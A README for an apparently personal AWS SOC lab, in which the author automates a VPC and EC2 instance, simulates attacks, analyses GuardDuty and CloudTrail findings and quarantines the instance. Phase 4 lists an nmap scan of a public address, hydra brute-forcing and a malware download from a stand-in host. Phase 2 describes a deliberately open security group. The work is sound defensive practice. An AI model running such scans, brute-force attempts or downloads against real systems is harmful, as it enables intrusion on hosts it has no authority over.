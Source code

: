# ☁️ AWS Cloud SOC Lab: Detection, Attack Simulation & Incident Response

## 📌 Overview
This project is a hands-on simulation of a cloud security incident in AWS, built to practice infrastructure automation, attack simulation, and incident response. I automated the creation of an AWS environment, simulated malicious activity, detected threats with GuardDuty, and performed manual containment just like a SOC analyst. All work was done in a fully isolated AWS environment using Kali Linux.

📁 Full project documentation with all screenshots and commands:  
👉 [documenting.md](https://github.com/jmcoded0/AWS-Cloud-SOC-Detection-Engineering-Lab/blob/main/documenting.md)

## 🎯 Project Goals
- Automate AWS infrastructure (VPC, EC2, security groups) using Python and Boto3.
- Simulate real-world attacks (port scans, SSH brute-force, fake malware downloads).
- Analyze GuardDuty findings and CloudTrail logs to extract IOCs.
- Practice SOC analyst tasks like quarantining compromised resources.

## ⚙️ Phases

### ✅ Phase 1: VPC Automation
- Created a custom VPC (`10.0.0.0/16`), subnets, Internet Gateway, and Route Table using Boto3.
- Used `config.py` for reusable variables.
- **Lesson:** Break scripts into steps and print IDs for easier debugging.

### ✅ Phase 2: Security Group Setup
- Created `coded-sg-v2` security group allowing all traffic (lab-only, insecure).
- Verified default VPC ID using AWS CLI.
- **Lesson:** Intentionally insecure setups maximize detection visibility.

### ✅ Phase 3: EC2 Attacker Setup
- Launched an Ubuntu EC2 instance (`t2.micro`, AMI: `ami-04b70fa74e45c3917`).
- Configured CloudWatch Agent via SSM Parameter Store to monitor logs (`/var/log/syslog`, `/var/log/auth.log`) and metrics.
- Installed tools like `nmap` and `curl` for attack simulation.
- **Lesson:** SSM-managed configs are scalable for monitoring.

### ✅ Phase 4: Attack Simulation
- Simulated:
  - Port scans: `nmap -sS 1.1.1.1`
  - SSH brute-force: `hydra`
  - Fake malware downloads: `curl http://badhost.com/malware`
- Triggered GuardDuty malware detection events (`/aws/guardduty/malware-scan-events`).
- **Lesson:** Even failed commands can trigger behavioral detections.

### ✅ Phase 5: Forensics and IOC Extraction
- Analyzed GuardDuty findings:
  - `Recon:EC2/Portscan`
  - `Backdoor:EC2/DenialOfService.TorClient`
- Extracted IOCs such as:
  - IP: `1.1.1.1`
  - Port: `35`
  - Instance ID: `i-0bca611a4c23538c8`
- Encountered CloudTrail permission error (`cloudtrail:LookupEvents`).
- **Lesson:** IAM policies are critical gatekeepers.

### ✅ Phase 5.2: Manual Quarantine
- Tagged the compromised EC2 instance with `Quarantine=True`.
- Stopped the instance manually.
- **Lesson:** Manual containment builds real IR muscle memory.

### ✅ Phase 6: CloudTrail Analysis
- Correlated GuardDuty findings with CloudTrail logs.
- Investigated snapshot usage and event history.
- **Lesson:** Logs provide crucial context for incident reconstruction.

## 💡 Key Lessons
- Cloud security is tactical—it requires real, hands-on AWS practice.
- GuardDuty + CloudTrail offer deep visibility into threat activity.
- Manual response steps (like tagging or stopping instances) are valid IR actions.
- IAM permissions directly impact your ability to investigate.

## 🙋 Reflections
This project taught me how to think like a cloud security analyst—from building and misconfiguring infrastructure, to simulating real attacks, investigating alerts, and responding manually. It was a full, hands-on journey through AWS security tools like GuardDuty, CloudTrail, and IAM.

